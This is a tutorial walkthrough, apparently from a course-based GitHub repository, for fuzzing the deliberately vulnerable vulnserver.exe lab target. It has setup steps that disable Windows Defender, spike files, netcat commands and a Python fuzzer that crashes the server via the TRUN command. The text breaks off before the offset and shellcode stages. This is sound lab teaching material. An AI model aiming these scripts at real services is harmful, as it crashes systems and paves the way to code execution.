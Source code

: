 # A simple walkthrough for a windows vulnerable server (vulnserver.exe)

This tutorial is based on the "Practical Ethical Hacking - The Complete Course", a Udemy course made by Mr. Heath Adams (The Cyber Mentor)

# Requirements
- Download and install: Kali (for attacker machine) and windows 10 (victim's machine)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Vulnserver: http://www.thegreycorner.com/p/vulnserver.html

# Things to remember:
1. Make sure you disable the Windows Defender in Windows VM.
2. Allow files and printer sharing in your firewall (make sure you can ping windows VM from your Kali VM).
3. Always run Immunity Debugger (IMD) and Vulnserver.exe as Administrator.
4. Close and re-run Immunity Debugger and Vulnserver.exe after an attack from Kali machine to prevent issues.

# Steps to conduct bufferoverflow
1. Spiking 
2. Fuzzing  
3. Find the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding Right Modules (MSF)
7. Generating shellcode (MSF)
8. Root!

## I. Spiking
1. On windows, open vulnserver.exe (always run as administrator)
2. On Kali VM, try to test if Kali can connect to Windows via netcat. Usuallly, vulnserver runs on port 9999.
```
$ nc -nv 192.168.17.134 9999
```
This will be the result if you type **HELP**

![HELP_cmd](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/HELP_command.png)

Notes:
>We can use these command to test if the target is vulnerable to bufferoverflow. 
>We will try use STATS but **spoiler alert, TRUN is the correct payload for this exercise.

3. We will create files with payload and try if the target machine is vulnerable to bufferoverflow. Create a filed called '[stats.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/stats.spk)' and ‘[trun.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/trun.spk)’

>stats.spk

````spk
s_readline();
s_string("STATS ");
s_string_variable("0");
````
>trun.spk

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
4. Open **IMD** as administrator, click File > Attach > select vulnserver > click Attach > click the run icon ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png)

![file_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/file_attach.png)

![vulnserver_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/vulnserver_attach.png)

It will look something like this:

![imd_vulnserver_attached_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/imd_vulnserver_attached.png)

Note:

>- In the lower right you can see the status **Paused** ![paused_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/paused.png) \
>- Click the run button on the menu ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png) to change the status to **Running** ![running_status](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/running.png) 

5. On Kali, run **generic_send_tcp** <target_ip> <port> <payload_file.spk> 0 0.

```
$ generic_send_tcp 192.168.17.134 9999 stats.spk 0 0
```
![fuzzing_output_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_output.png) 

>**IMPORTANT NOTE!** Always close and re-run the IMD and vulnserver.exe as administrator before doing new attack test.

6. Check the **IMD**, **STATS** command will not make the target crash so we will try the **TRUN** command.

```
$ generic_send_tcp 192.168.17.134 9999 trun.spk 0 0
```

>- Check the **IMD** again and it should look like this. We can see bunch of **A**s and hex **41414141** \
>- **41** means hex of letter **A**. Four bytes of **41** is equal to hex **41414141** \
>- Our payload using **TRUN** command is successful and made the vulnserver crashed!!! Now we confirmed that the server is vulnerable to bufferoverflow!

![spiking_srcshot](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/spiking_srcshot.png) 

>**Q: How and why the system crashed?** \
>A: By sending bunch of As, to the stack buffer. The stack buffer (EAX register) over flows and we successfully allocated As to the Base Pointer (EBP) and Instruction Pointer (EIP). We can see that EBP and EIP values are all 41414141


>**Q: What is EIP and why it is very important to understand?** \
>A: The Instruction Pointer (IP) is where the actual command executes!! So, if we can overwrite this, we can send malicious code and gain reverse shell.

## II. Fuzzing

1. We will automate the sending of bunch of As using python script. Make a python2 script ‘fuzz.py’ and copy paste this script.

>fuzz.py

````python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = 'A' * 100 

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.17.134', 9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1) 
		buffer = buffer + 'A' * 100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
		sys.exit()

````

> Dont forget to change its permission to executable. 

```
$ chmod +x fuzz.py
```

>**Q: What does this code do?**
>A: The script sends 100 As to the vulnserver then it adds another 100 As, so the buffers grows every iteration until it crash.

2. Close and re-run the **IMD** and **vulnserver.exe**. Re-attach vulnserver to IMD then hit the Run button. Makse sure the status is '**Runing**'.

3. Run the python2 script:

```
$ ./fuzz.py
```

4. Observe the **IMD** and wait for it to crash then immediately terminate the fuzz.py script by pressing **CTRL + C**. \
   We can see in the **IMD* that the vulserver crash by checking its status to **Paused** and also we see again the bunch of As in the **Registers** section.

![fuzzing_crashed](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_crashed.png)

5. We see that the vulnserver crashed at around 2200 bytes. So the Offset must be less than 2200 bytes. \
   If you CTRL + C and your result is not 2200 bytes, that's okay because the Offset must be less than what you get in the result.

## III. Finding the Offset

















































